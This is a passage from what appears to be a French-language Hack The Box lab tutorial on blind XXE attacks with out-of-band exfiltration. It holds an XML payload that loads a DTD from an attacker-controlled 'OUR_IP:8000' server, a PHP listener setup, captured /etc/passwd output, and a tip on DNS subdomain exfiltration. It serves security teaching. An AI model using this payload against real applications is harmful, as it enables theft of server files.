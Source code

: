 Ainsi, nous allons d'abord écrire le code PHP ci-dessus sur `index.php`, puis démarrer un serveur PHP sur le port `8000`, comme suit :

```
dsgsec@htb[/htb]$ vi index.php # here we write the above PHP code
dsgsec@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started

```

Maintenant, pour lancer notre attaque, nous pouvons utiliser une charge utile similaire à celle que nous avons utilisée dans l'attaque basée sur les erreurs, et simplement ajouter , `<root>&content;</root>`qui est nécessaire pour référencer notre entité et lui faire envoyer la requête à notre machine avec le contenu du fichier :

Code : xml

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

```

Ensuite, nous pouvons envoyer notre requête à l'application Web : ![blind_request](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Enfin, nous pouvons retourner à notre terminal, et nous verrons que nous avons bien récupéré la requête et son contenu décodé :

```
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

```

Conseil : En plus de stocker nos données encodées en base64 en tant que paramètre de notre URL, nous pouvons les utiliser `DNS OOB Exfiltration`en plaçant les données encodées en tant que sous-domaine de notre URL (par exemple `ENCODEDTEXT.our.website.com`), puis utiliser un outil comme `tcpdump`pour capturer tout trafic entrant et décoder la chaîne de sous-domaine pour obtenir les données. Certes, cette méthode est plus avancée et nécessite plus d'efforts pour exfiltrer les données.

* * * * *
